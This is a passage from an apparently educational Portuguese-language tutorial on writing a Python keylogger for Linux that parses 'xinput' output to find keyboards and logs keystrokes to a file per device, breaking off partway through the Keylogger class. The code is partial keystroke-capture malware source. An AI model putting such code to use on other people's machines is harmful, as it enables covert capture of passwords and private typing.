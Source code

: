## Escrevendo o Keylogger

Como o objetivo principal do nosso script é executar expressões regulares para filtrar apenas o código das teclas (keycodes), começamos por definir as expressões que mais utilizaremos durante a execução:

<pre lang="python">KEYPRESS_REGEX = re.compile(r'key press +(\d+)')
KEYBOARD_REGEX = re.compile(r'(.*)Keyboard(.*)id=(\d+)(.*)')
KEYCODE_REGEX = re.compile(r'keycode +(\d+) = (.+)')</pre>

Em seguida, executamos o comando `xinput test` e capturamos a saída no Python. Como esse comando lista todos os dispositivos, usamos `KEYBOARD_REGEX` para filtrar os dispositivos de teclado. Fazemos isso pela seguinte função:

<pre lang="python">def get_listanables_keyboards():
    stdout = bash.xinput("list")
    keyboards = []
    for line in stdout:
        match = KEYBOARD_REGEX.match(line)
        if match and match.group(3).isdigit():
            keyboard = int(match.group(3))
            keyboards.append(keyboard)
    return keyboards</pre>

Devemos notar que essa função retorna uma **lista** de teclados. Isso porque nosso script está hábil a escutar vários dispositivos de teclado. Dessa forma, o script consiste em executar um `Keylogger` para cada dispositivo de teclado:

<pre lang="python">if __name__ == '__main__':
    keyboards = get_listanables_keyboards()
    for keyboard in keyboards:
        Keylogger(keyboard).start()
        signal_listener()</pre>

onde `signal_listener` escuta os sinais dados para a thread principal e envia esses sinais para as threads filhas:

<pre lang="python">def signal_listener():
    for sig in range(1, signal.NSIG):
        try:
            signal.signal(sig, signal.SIG_DFL)
        except RuntimeError:
            pass</pre>

### A Classe Keylogger

Como iremos escutar cada um dos teclados instalados no sistema, devemos gerar um keylogger para cada um deles. Assim, definimos uma classe que gera uma thread para cada um deles. Assim, começamos a definir essa classe como

<pre lang="python">class Keylogger(Thread):
    """Keylogger for a single keyboard"""
    def __init__(self, keyboard):
        Thread.__init__(self)
        self._keyboard = keyboard
        self._filename = 'keyboard%d.log' % self._keyboard
        self._file = open(self._filename, 'w+')
        self.__define_constants()
